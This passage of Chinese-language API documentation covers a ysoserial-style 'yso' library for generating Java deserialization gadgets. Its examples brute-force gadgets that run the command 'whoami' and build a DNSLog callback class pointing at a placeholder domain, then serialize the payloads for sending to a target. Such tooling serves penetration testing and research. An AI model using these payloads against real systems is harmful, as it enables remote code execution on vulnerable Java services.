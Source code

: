 `GetAllGadget() []any`

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `[]any` |   |


### GetAllRuntimeExecGadget

#### 详细描述
GetAllRuntimeExecGadget 获取所有的支持的RuntimeExecGadget，可用于爆破 gadget

Example:
```

	command := &#34;whoami&#34; // 假设的命令字符串
	for _, gadget := range yso.GetAllRuntimeExecGadget() {
		javaObj, err := gadget(command)
		if javaObj == nil || err != nil {
			continue
		}
		objBytes, err := yso.ToBytes(javaObj)
		if err != nil {
			continue
		}
		// 发送 objBytes
	}

```


#### 定义

`GetAllRuntimeExecGadget() []RuntimeExecGadget`

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `[]RuntimeExecGadget` |   |


### GetAllTemplatesGadget

#### 详细描述
GetAllTemplatesGadget 获取所有支持模板的Gadget，可用于爆破 gadget

Example:
```

	for _, gadget := range yso.GetAllTemplatesGadget() {
		domain := &#34;xxx.dnslog&#34; // dnslog 地址
		javaObj, err := gadget(yso.useDNSLogEvilClass(domain))
		if javaObj == nil || err != nil {
			continue
		}
		objBytes, err := yso.ToBytes(javaObj)
		if err != nil {
			continue
		}
		// 发送 objBytes
	}

```
